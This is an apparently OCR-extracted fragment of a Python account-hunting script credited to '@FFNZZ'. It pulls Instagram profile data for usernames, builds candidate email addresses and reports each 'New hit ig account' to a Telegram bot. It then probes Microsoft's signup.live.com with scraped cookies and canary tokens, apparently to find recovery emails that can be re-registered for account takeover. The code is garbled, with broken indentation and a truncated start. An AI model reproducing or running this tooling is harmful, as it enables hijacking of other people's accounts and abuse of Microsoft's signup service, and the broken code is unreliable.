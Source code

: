	   
	   
	    	json_data = {
    'username': username,}
    	   
	   	    	
	    	response = requests.post('https://storyviewer.com/api/data', headers=headers, json=json_data)
	    	data = response.json()['user_info']
	    	username = data.get('username')
	    	followers = data.get('followers')
	    	posts = data.get('posts')
	    	bio = data.get('bio')
	    	id = data.get('id')
	    	folling= data.get('following')
	    	name= data.get('full_name')
	    	date=Instagram.date(id)
	    	rest=Instagram.rest(username)
	    	ff =f"""
	┒
	┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 𝗶𝗴 𝗮𝗰𝗰𝗼𝘂𝗻𝘁
	┗
	════════════════
	⌊ Username ⌉  :  {username}
	⌊ Name ⌉   :  {name}
	⌊ Email ⌉  :  {username}@{jj}
	⌊ date ⌉   :  {date}
	⌊ post ⌉   :  {posts}
	⌊ followers ⌉   :  {followers}
	⌊ following ⌉   :  {folling}
	⌊ rest ⌉ :  {rest}
	════════════════
	≣ By @FFNZZ 
	        """
	
	        		
			   
	   	    	
	    	requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
	  	
	
	    
	    except:
	    	ff = f"""
	┒
	┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 𝗶𝗴 𝗮𝗰𝗰𝗼𝘂𝗻𝘁
	┗
	════════════════
	⌊ Username ⌉  :  {username}
	⌊ Email ⌉  :  {username}@{jj}
	⌊ Rest ⌉  :  {rest}
	════════════════
	≣ By @FFNZZ
	        """
	        		
		
	    	requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
	while True:
	    try:
	        res = gg('https://signup.live.com/signup')
	        amsc = res.cookies.get_dict().get('amsc')
	        canary = res.text.split('"apiCanary":"')[1].split('"')[0].encode().decode('unicode_escape')
	        cookies = {
	            'amsc': amsc,
	        }
	        headers = {
	            'authority': 'signup.live.com',
	            'accept': 'application/json',
	            'canary': canary,
	            'origin': 'https://signup.live.com',